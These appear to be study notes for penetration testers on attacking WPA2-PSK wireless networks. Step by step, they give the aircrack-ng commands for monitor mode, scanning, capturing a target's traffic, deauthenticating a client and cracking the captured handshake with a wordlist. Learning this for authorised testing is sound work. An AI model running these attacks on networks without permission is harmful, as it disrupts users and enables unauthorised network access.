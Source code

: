 # Wireless Attacks

The two common types of assessments of wireless networks is:

- WPA2 PSK
- WPA2 Enterprise

You need a wireless card to perform this assessment.

- Hacking Process (WPA2 PSK)
    - Place wireless card into monitor mode
    - Discover information about network
    - Select network and capture data
    - Perform deauth attack
    - Capture WPA handshake
    - Attempt to crack the handshake

*The attack of wireless networks relies on poor password implementation*

Step 1: 

```jsx
airmon-ng check kill
```

This kills the process that might interfere with the monitor

Step 2:

```jsx
airmon-ng start wlan0
```

This starts monitor mode

Step 3:

```jsx
airodump-ng wlan0mon
```

This will populate all the devices around us in our location

Step 4:

```jsx
airodump-ng -c 6 --bssid MAC ADDRESS -w capture wlan0mon
```

We can kick a client off the network and require them to do the handshake again to capture the handshake, this will create a capture file where we can attempt to crack the handshake

Step 5: 

```jsx
aireplay-ng -0 1 -a MACADDRESS -c CLIENTMAC wlan0mon
```

This command will deauth the user and require a handshake

Step 6: View capture files

Step 7: Run Aircrack-ng

```jsx
aircrack-ng -w wordlist.txt -b APMACADDRESS CAPTUREFILE
```